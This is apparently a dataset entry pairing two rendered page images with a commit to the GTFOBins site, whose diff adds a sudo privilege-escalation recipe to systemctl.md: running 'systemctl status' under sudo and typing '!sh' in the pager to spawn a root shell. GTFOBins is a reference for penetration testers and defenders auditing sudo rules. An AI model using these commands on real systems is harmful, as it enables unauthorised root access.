

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/systemctl.md, in a window 1280 px wide. Shown: the part 935-1120 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update systemctl.md
How to obtain a root shell when you can run systemctl status with sudo

```diff
--- a/_gtfobins/systemctl.md
+++ b/_gtfobins/systemctl.md
@@ -29,4 +29,7 @@ functions:
       code: |
         sudo systemctl
         !sh
+      code: |
+        sudo /usr/bin/systemctl status any.service
+        !sh
 ---
```
